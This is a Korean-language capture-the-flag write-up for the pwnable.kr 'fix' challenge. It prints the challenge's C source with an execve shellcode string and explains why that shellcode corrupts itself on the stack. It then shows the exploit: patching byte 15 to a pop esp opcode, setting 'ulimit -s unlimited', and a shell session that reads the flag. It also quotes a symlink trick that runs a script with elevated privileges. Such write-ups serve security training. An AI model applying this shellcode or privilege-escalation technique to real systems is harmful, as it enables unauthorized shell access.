

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

소스코드는 다음과 같다.

```cpp
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}
```

파일 정보는 다음과 같다.

```sh
root@ubuntu:~# checksec fix
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.cache/.pwntools-cache-3.6/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.7.0)
[*] '/root/fix'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

sc의 주소는 0x0804a02c이다.


shellcode함수에서 return이 주소는 buf의 주소로 임으로 shellcode가 실행된다.


shellcode가 실행되기 전 stack은 다음과 같다.



먼저 eax가 push가 될 때 stack은 다음과 같이 되고,


/bin이 push가 될 때 stack은 다음과 같이 되고,


//sh이 push가 될 때 stack은 다음과 같이 되고,


다음 eax가 push될 때, execve를 호출하는 부분을 침범하기 때문에 의도대로 shellcode를 실행할 수 없다.


문제가 되는 eax를 push할 때, esp는 0x6E69622F (=/bin)인데, push eax가 아닌 pop esp를 시키면 이후 push ebx때에도 shellcode를 침범하지 않는다.

이때 현재 esp에서 0x6E69622F까지는 범위가 매우커서 이동이 되지 않는다.

```sh
fix@pwnable:~$ ulimit -a
... 생략 ...
stack size              (kbytes, -s) 8192
... 생략 ...
```

stack의 사이즈를 무제한으로 늘린다.

```sh
fix@pwnable:~$ ulimit -s unlimited
fix@pwnable:~$ ulimit -a
... 생략 ...
stack size              (kbytes, -s) unlimited
... 생략 ...
```

그리고 push eax가 아닌 pop esp로 변경하기 위해 0x50을 0x5C (=92)로 바꿔준다.

> [OP CODE](http://sparksandflames.com/files/x86InstructionChart.html)

FLAG를 획득하자.

```sh
fix@pwnable:~$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
```

* 의도된 해결은 다음과 같다고 한다.

```sh
1. change 15th index of shellcode into 0xc9 (201)
2. create symlink for a shell script input file:
ln -s /tmp/fix8/a.sh `perl -e 'print"\x83\xc4\x10\x83\xec\x0c\x50\xe8\x4d\x61\x01"'`
3. put whatever commands in a.sh. these commands will be executed as fix_pwn
```

# **FLAG**

**Sorry for blaming shell-strom.org :) it was my ignorance!**